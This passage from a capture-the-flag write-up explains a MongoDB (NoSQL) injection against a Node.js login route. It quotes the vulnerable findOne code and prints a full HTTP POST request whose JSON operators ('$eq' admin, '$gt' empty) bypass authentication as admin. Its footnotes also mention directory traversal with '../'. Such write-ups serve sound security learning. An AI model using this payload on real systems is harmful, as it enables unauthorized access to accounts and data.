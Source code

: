 ## <ins>Gnome 03 - <em>IP: 52.64.191.71</em></ins>

<strong>Challenge Snapshot:</strong> I can't login with the username/password I captured! I will have to send a specific post request in order to take advantage of an injection vulnerability in order to gain access. I used [postman]( https://chrome.google.com/webstore/detail/postman/fhbjgbiflinjbdggehcddcbncdddomop) to send the exploit via a post request.

<strong>Vulnerability:</strong> This part involves MongoDB Injection, which if similar to SQL injection.[^3] The vulnerable code is located at line 109. The input for username and password are not validated and accept any input that I pass to the function. As a result the ```db.get('users').findOne``` function will get the first username/password that matches our request.[^4] The goal is to send a JSON document which makes both the username and password true statements, rather than sending a username and password.

{% highlight javascript %}
router.post('/', function(req, res, next) {
  var db = req.db;
  var msgs = [];
  db.get('users').findOne({username: req.body.username, password: req.body.password}, function (err, user) {
{% endhighlight %}

<strong>Solution:</strong> I used postman to craft a post request which would send a JSON document as the input to the website.[^5] Since the ```findOne()``` method finds the fist match I have to be specific about what I are looking for in the database. My first attempt at logging me into the website actually just logged me in as "user" instead of admin. The key to logging in as ```admin``` lied in line 15 of my post request. I set username equal to admin, and as long as there is at least one entry in the database named admin - the statement will be true. I also set the password set to "greater than null" - which is always a true statement. As a result I was logged in as admin and had full access to the website to download files.

{% highlight http linenos %}
POST / HTTP/1.1
Host: 52.64.191.71
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.106 Safari/537.36
DNT: 1
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-US,en;q=0.8
Cookie: sessionid=6MPeoMckwY8IkKHJgipL
Content-Type: application/json
Cache-Control: no-cache
Postman-Token: 31a4434b-79e2-3d9f-15da-10a0eac3365c

{
    "username": {"$eq": "admin"},
    "password": {"$gt": ""}
}
{% endhighlight %}

[^1]: I used the developer console from Chrome to view the specific elements of the webpage. Click the menu tab, mouse down to more tools, and click on Developer Tools. This brings up a new window with a new menu bar. Click on the icon in the top right corner of the menu bar which looks like a mouse inside a square. This will allow you to inspect a specific part of the page. Click on any of the camera images.
[^2]: At this point I could continue to add more <strong>../</strong> to get to whatever directory I want. However, for this particular challenge I are after the files located in the /gnome/www/files directory.
[^3]: There is a great article written by D. Petkov [here](http://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html). It explains how SQL injection and MongoDB injection are similar and in some cases easier on Node.JS, because of the use of JSON.
[^4]: Learn more about the findOne() method at the [mongodb website](https://docs.mongodb.org/manual/reference/method/db.collection.findOne/).
[^5]: I actually made a few mistakes when trying to craft the exploit. First, I forgot I needed a specific content-type. So make sure if you are creating a JSON exploit you change the type of the request so that it is a JSON document. Next, I set ```"username: {"$gt": ""},``` during my first attempt. This actually logged me in as "user", which when I went to do some research one what the ```findOne()``` method does - and prompted me to change the username to <em>$eq</em> and <em>admin</em>.
[^6]: I interacted with the form very similar to how I did while examining images during the Gnome02 exploit[^1]. 
[^7]: Asynchronous Input/Output can be a problem when exploiting a service. The problem arises when a program does not know what to do with information being held in a buffer. If the buffer never gets flushed and sent to a file descriptor or socket it will be held until the buffer is filled - <em>not a good thing for exploitation</em>.